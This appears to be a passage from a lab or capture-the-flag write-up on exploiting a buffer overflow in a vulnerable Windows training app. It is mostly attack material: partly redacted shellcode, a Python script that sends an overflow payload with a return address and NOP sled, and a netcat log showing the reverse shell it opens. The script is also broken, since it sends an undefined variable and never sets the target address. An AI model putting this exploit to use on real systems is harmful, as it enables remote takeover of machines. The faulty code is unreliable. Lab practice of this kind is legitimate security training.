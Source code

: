 ```sh
Final size of python file: 1753 bytes
buf =  b""
buf += b"\xfc\xbb\xe2\xf9\x96\x8c\xeb\x0c\x5e\x56\x31\x1e"
    [[**Redacted**]]
buf += b"\xe0\xd3\x14\x8b\x0b"

```

now use modify out code

```python
import socket

buf =  ""
buf += "\xfc\xbb\xe2\xf9\x96\x8c\xeb\x0c\x5e\x56\x31\x1e"
    [[**Redacted**]]
buf += "\xe0\xd3\x14\x8b\x0b"

payload = "OVERFLOW1 " + "A" * 1978 + "\xAF\x11\x50\x62" + "\x90" * 16 + buf
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
  s.connect((ip, port))
  print("Sending buffer")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("done")
except:
  print("Could not connect.")
```

```sh
┌──(mike㉿kali)-[~]
└─$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.17.123.200] from (UNKNOWN) [10.10.62.72] 49286
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0EE5-7CCF

 Directory of C:\Users\admin\Desktop\vulnerable-apps\oscp

07/03/2020  09:38 PM    <DIR>          .
07/03/2020  09:38 PM    <DIR>          ..
07/06/2020  07:29 PM            16,601 essfunc.dll
07/20/2020  09:50 PM            54,648 oscp.exe
               2 File(s)         71,249 bytes
               2 Dir(s)  50,152,583,168 bytes free
```
